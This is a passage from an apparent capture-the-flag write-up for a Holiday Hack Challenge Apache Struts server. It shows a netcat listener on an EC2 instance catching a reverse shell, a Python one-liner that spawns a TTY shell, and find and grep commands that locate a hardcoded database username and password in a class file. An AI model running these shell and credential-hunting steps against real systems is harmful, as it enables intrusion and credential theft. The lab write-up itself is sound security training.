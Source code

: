 Jeff McJunkin wrote a good post for SANS about [Putting My Zero Cents In: Using the Free Tier on Amazon Web Services (EC2)](https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2).

The post goes through the process of setting up a Free Amazon EC2 Instance in AWS, which will seriously help you during pentests like this by providing you a public IP.

After reading the post I opted to create an EC2 instance and utilized my PHP Shell to create a Reverse Shell back to my EC2 instance.

<a href="https://jhalon.github.io/images/shh15.png"><img src="https://jhalon.github.io/images/shh15.png"></a>

After running the command, we get a successful reverse shell back to our EC2 instance.

```console
ubuntu@ip-172-31-24-12:~$ sudo nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [35.190.140.65] port 80 [tcp/*] accepted (family 2, sport 59800)
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

<a href="https://jhalon.github.io/images/shh16.png"><img src="https://jhalon.github.io/images/shh16.png"></a>

Now that we have shell access to the server, let's spawn up an Interactive [TTY Shell](https://netsec.ws/?p=337) by using Python.

```console
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@hhc17-apache-struts2:~/html$
```

Knowing that we need to find Alabaster Snowballs password, I utilized the `find` command to look for anything that matched "__struts.xml__" hoping that something might be hardcoded in the Apache Struts directory.

```console
www-data@hhc17-apache-struts2:~/html$ find / -name "struts.xml" 2>/dev/null
find / -name "struts.xml" 2>/dev/null
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
/opt/apache-tomcat/webapps/ROOT/WEB-INF/src/java/struts.xml
```

Perfect, we now know where Apache Struts is located. Let's go ahead and look for any files with the name "__alabaster__" in them, located in the Apache Struts directory.

```console
www-data@hhc17-apache-struts2:~/html$ grep -rnw '/opt/apache-tomcat/' -e 'alabaster' 2>/dev/null
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:3:            final String username = "alabaster_snowball";
```

So it seems that we found alabaster's username in a file called __OrderMySql.class__. Let's see if there is a password in here as well.

```console
www-data@hhc17-apache-struts2:~/html$ cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class 
<-INF/classes/org/demo/rest/example/OrderMySql.class
    public class Connect {
            final String host = "localhost";
            final String username = "alabaster_snowball";
            final String password = "stream_unhappy_buy_loss";   
            String connectionURL = "jdbc:mysql://" + host + ":3306/db?user=;password=";
            Connection connection = null;
            Statement statement = null;
```
